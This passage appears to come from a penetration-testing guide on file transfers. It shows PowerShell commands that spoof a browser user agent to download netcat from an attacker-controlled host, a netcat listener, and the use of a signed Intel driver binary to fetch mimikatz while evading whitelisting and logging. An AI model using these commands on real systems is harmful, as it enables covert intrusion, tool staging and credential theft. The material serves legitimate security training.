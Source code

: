 Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari.

**Listing User Agents**

```
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

**Request with Chrome User Agent**
```
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
```
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```
nc -lvnp 80
```

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows

**Transferring File with GfxDownloadWrapper.exe**
```
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

